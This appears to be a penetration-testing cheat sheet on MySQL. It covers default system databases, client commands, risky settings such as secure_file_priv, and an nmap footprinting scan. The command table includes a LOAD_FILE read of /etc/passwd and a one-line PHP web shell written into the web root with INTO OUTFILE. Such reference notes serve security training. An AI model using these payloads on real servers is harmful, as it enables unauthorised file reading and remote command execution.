 # MySQL

## About

<mark style="color:red;">**MySQL**</mark> is an open-source SQL <mark style="color:purple;">**relational database**</mark> management system developed and supported by Oracle. A database is simply a structured collection of data organized for easy use and retrieval. Default MySQL port is <mark style="color:yellow;">**3306**</mark>. The most important databases fot the MySQL are the <mark style="color:green;">**`system schema (sys)`**</mark> and <mark style="color:green;">**`information schema (information_schema)`**</mark>. The **system schema** contaions tables, information, and metadata necessary for management. The **information schema** contains metadata which mainly retrieved from the system **schema database**.

## Databases

**MySQL** has default system databases that can help us understand the structure of all the databases that may be hosted on a target server.

| Database                                                   | Description                                                           |
| ---------------------------------------------------------- | --------------------------------------------------------------------- |
| <mark style="color:green;">**`mysql`**</mark>              | Contains tables with required info for the server                     |
| <mark style="color:green;">**`information_schema`**</mark> | Database metadata                                                     |
| <mark style="color:green;">**`performance_schema`**</mark> | Low level monitoring MySQL Server execution                           |
| <mark style="color:green;">**`sys`**</mark>                | Objects that helps devs to use data from performance\_schema database |

## MySQL Useful Commands

| Command                                                                                                                                                        | Description                                                                                           |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------- |
| <mark style="color:green;">**`mysql -u <user> -p<password> -h <IP address>`**</mark>                                                                           | Connect to the MySQL server. There should **not** be a space between the '-p' flag, and the password. |
| <mark style="color:green;">**`show databases;`**</mark>                                                                                                        | Show all databases                                                                                    |
| <mark style="color:green;">**`use <database>;`**</mark>                                                                                                        | Select one of the existing databases                                                                  |
| <mark style="color:green;">**`show tables;`**</mark>                                                                                                           | Show all available tables in the selected database                                                    |
| <mark style="color:green;">**`show columns from <table>;`**</mark>                                                                                             | Show all columns in the selected database                                                             |
| <mark style="color:green;">**`select * from <table>;`**</mark>                                                                                                 | Show everything in the desired table                                                                  |
| <mark style="color:green;">**`select * from <table> where <column> = "<string>";`**</mark>                                                                     | Search for needed `string` in the desired table                                                       |
| <mark style="color:green;">**`select LOAD_FILE("/etc/passwd");`**</mark>                                                                                       | _<mark style="color:orange;">**NOT DEFAULT.**</mark>_ Reading local files                             |
| <pre class="language-bash"><code class="lang-bash">SELECT "&#x3C;?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
</code></pre> | _<mark style="color:orange;">**NOT DEFAULT.**</mark>_ Writing local files                             |

## CMD Interacting

#### Linux

```bash
mysql -u carni17 -psuperkek123 -h 13.13.13.13
```

#### Windows

```bash
mysql.exe -u carni17 -psuperkek123 -h 13.13.13.13
```

## Dangerous Settings

#### **Config File Location**

```bash
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | sed -r '/^\s*$/d'
```

* <mark style="color:green;">**`user`**</mark> - Sets which user the MySQL service will run as
* <mark style="color:green;">**`password`**</mark> - Sets the password for the MySQL user
* <mark style="color:green;">**`admin_address`**</mark> - The IP address on which to listen for TCP/IP connections on the administrative network interface
* <mark style="color:green;">**`debug`**</mark> - This variable indicates the current debugging settings
* <mark style="color:green;">**`sql_warnings`**</mark> - This variable controls whether single-row INSERT statements produce an information string if warnings occur
* <mark style="color:green;">**`secure_file_priv`**</mark> - This variable is used to limit the effect of data import and export operations. If empty - variable have no effect. If NULL - server disables import/export. If directory - import/export is limited to directory.

#### Show variable

```sql
show variables like "secure_file_priv";
```



## Tips2Hack

1. Nmap Basic Footprinting

```bash
sudo nmap 13.13.13.13 -sV -sC -p3306 --script mysql*
```

***
